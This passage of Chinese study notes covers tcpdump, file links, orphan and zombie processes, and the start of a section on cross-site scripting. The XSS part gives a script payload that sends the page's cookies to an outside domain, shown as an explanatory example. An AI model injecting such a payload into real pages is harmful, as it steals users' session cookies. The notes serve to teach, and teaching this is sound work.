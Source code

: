 tcpdump 是一种使用最广泛的命令行网络数据包分析器或数据包嗅探程序，主要用于捕获和过滤 TCP/IP 包收到或者转移在一个网络的特定借口信息。它也提供了一个选项参数去保存将捕获的包在一个文件中用于以后分析使用，tcpdump 几乎在所有的 Linux 版本中都是可用的。

tcpdump: verbose output suppressed, use -v or -vv for full protocol decode 
listening on eth0, link-type EN10MB (Ethernet), capture size 96 bytes 
22:08:59.617628 IP tecmint.com.ssh > 115.113.134.3.static-mumbai.vsnl.net.in.28472: P 2532133365:2532133481(116) ack 3561562349 win 9648 
22:09:07.653466 IP tecmint.com.ssh > 115.113.134.3.static-mumbai.vsnl.net.in.28472: P 116:232(116) ack 1 win 9648 
22:08:59.617916 IP 115.113.134.3.static-mumbai.vsnl.net.in.28472 > tecmint.com.ssh: . ack 116 win 64347 

## 软链接和硬链接

 软连接：目录项中的inode节点号指向的block存储的是另一个文件的路径名。 ls li查看

硬链接： 目录项中的inode节点号指向的block存储数据。

区别： 硬链接不可以跨分区，软连接可以跨分区
硬链接增加链接数，软连接不增加
inode节点编号 硬链接增加 软链接不增加 

## 孤儿进程和僵尸进程

**孤儿进程：**父进程退出，子进程还在运行，将成为孤儿进程。会被 init 进程（进程号为 1）所收养，并由 init 进程对它们完成状态收集工作，不会造成危害

由于孤儿进程会被 init 进程收养，所以孤儿进程不会对系统造成危害。

**僵尸进程**：子进程退出，父进程并没有调用 wait() 或 waitpid()，子进程的进程描述符仍然保存在系统中，这种进程称之为僵尸进程。如果产生大量僵尸进程，将因为没有可用的进程号而导致系统不能产生新的进程。

僵尸进程通过 ps 命令显示出来的状态为 Z（zombie）。

要消灭系统中大量的僵尸进程，只需要**将其父进程杀死**，此时僵尸进程就会变成孤儿进程，从而被 init 进程所收养，这样 init 进程就会释放所有的僵尸进程所占有的资源，从而结束僵尸进程。

# 系统安全

# 一、跨站脚本攻击

跨站脚本攻击（Cross-Site Scripting, XSS），可以将代码注入到用户浏览的网页上。分为持久性攻击和非持久性攻击。

- **持久型也就是攻击的代码被服务端写入进数据库中**，这种攻击危害性很大，因为如果网站访问量很大的话，就会导致大量正常访问页面的用户都受到攻击。

> 举个例子，对于评论功能来说，就得防范持久型 `XSS` 攻击，因为我可以在评论中输入以下内容

![image.png](https://upload-images.jianshu.io/upload_images/1480597-4d0534470dcfe615.png?imageMogr2/auto-orient/strip%7CimageView2/2/w/1240)

- 这种情况如果前后端没有做好防御的话，这段评论就会被存储到数据库中，这样每个打开该页面的用户都会被攻击到。
- **非持久型通过修改 `URL` 参数的方式加入攻击代码**，诱导用户访问链接从而进行攻击。

**攻击原理**

例如有一个论坛网站，攻击者可以在上面发布以下内容：

```
<script>location.href="//domain.com/?c=" + document.cookie</script>
```
